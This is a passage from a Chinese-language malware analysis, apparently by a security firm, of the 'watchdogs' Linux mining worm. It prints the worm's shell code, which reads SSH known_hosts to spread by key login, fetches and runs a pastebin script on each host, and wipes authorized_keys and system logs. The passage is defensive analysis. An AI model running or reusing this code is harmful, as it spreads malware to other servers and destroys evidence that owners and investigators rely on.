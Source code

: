 通过读取.ssh目录下known_hosts中的服务器地址，尝试使用密钥登录后横向传播：

```
if [ -f /root/.ssh/known_hosts ] &amp;&amp; [ -f /root/.ssh/id_rsa.pub ]; then

  for h in $(grep -oE "b([0-9]`{`1,3`}`.)`{`3`}`[0-9]`{`1,3`}`b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChec

king=no $h '(curl -fsSL https://pastebin.com/raw/sByq0rym||wget -q -O- https://pastebin.com/raw/sByq0rym)|sh &gt;/dev/null 2&gt;&amp;1 &amp;' &amp; done

fi

echo 0&gt;/root/.ssh/authorized_keys

echo 0&gt;/var/spool/mail/root

echo 0&gt;/var/log/wtmp

echo 0&gt;/var/log/secure

echo 0&gt;/var/log/cron
```

具体的可参考我们公司上一篇分析文章：

[https://mp.weixin.qq.com/s/7HyO9gVdgDYL4x7DKCVgZA](https://mp.weixin.qq.com/s/7HyO9gVdgDYL4x7DKCVgZA)

这里是检查更新：

[![](https://p4.ssl.qhimg.com/t018702db7d980328e8.png)](https://p4.ssl.qhimg.com/t018702db7d980328e8.png)

病毒文件会定时向服务端请求更新信息。

通过tcpdump进行协议抓包分析，发现有挖矿行为：

[![](https://p5.ssl.qhimg.com/t019b14cea9204666f2.png)](https://p5.ssl.qhimg.com/t019b14cea9204666f2.png)

通过htop进行进程分析，发现会启动以下的进程，cpu占用率极高

[![](https://p1.ssl.qhimg.com/t012fe60fb698933d9c.png)](https://p1.ssl.qhimg.com/t012fe60fb698933d9c.png)

通过使用inotify监视bin目录，发现其删除了一个netstat命令

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017be7e87abf59cb98.png)

通过分析可知该计划任务会定时从服务端下载一张图片格式文件并重命名为watchdogs保存到tmp目录下并执行，执行过程中会释放config.json及ksoftirqds到tmp目录下。为了防止被捕获，在程序执行后，对watchdogs，config.json，ksoftrqds进行了删除操作。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01729a159e7d0daf7e.png)
